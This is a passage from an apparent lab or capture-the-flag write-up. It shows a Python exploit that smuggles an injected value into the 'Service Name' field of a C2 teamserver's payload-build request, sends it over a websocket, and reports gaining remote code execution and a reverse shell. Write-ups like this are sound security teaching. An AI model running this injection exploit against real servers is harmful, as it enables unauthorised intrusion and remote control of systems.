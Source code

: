 ```python
                "    \"Proxy Loading\": \"None (LdrLoadDll)\",\n"
                f"    \"Service Name\": \"{injection}\",\n"
                "    \"Sleep\": \"2\",\n"
                "    \"Sleep Jmp Gadget\": \"None\",\n"
                "    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n"
                "    \"Stack Duplication\": false\n"
                "}"
            ),
            "Format": "Windows Service Exe",
            "Listener": "abc"
        },
        "SubEvent": 2
    },
    "Head": {
        "Event": 5,
        "OneTime": "true",
        "Time": "18:39:04",
        "User": USER
    }
}

sock.sendall(build_websocket_frame(json.dumps(rce_payload)))

# ========== Wait for Compile Output ==========
print("[*] Waiting for compile output...")
while True:
    try:
        data = sock.recv(8192)
        #text = parse_websocket_frame(data)
        payload = parse_websocket_frame(data)

        if isinstance(payload, bytes):
            try:
                payload = payload.decode("utf-8")
            except Exception as e:
                print("[!] Error decoding ninary frame:", e)
                continue

        if "compile output" in payload:
            msg = json.loads(payload)
            out = msg["Body"]["Info"]["Message"].split("\n")
            print("\n".join(out[1:]))  # Skip first line
            break
    except Exception as e:
        print("[!] Error while receiving:", e)
        break

sock.close()
```

Running the modified script, although our output for the commands on our machine was not so consistent, the commands were executed on the target machine as expected, so by sending a reverse shell command, we could successfully trigger the RCE vulnerability and receive a reverse shell.
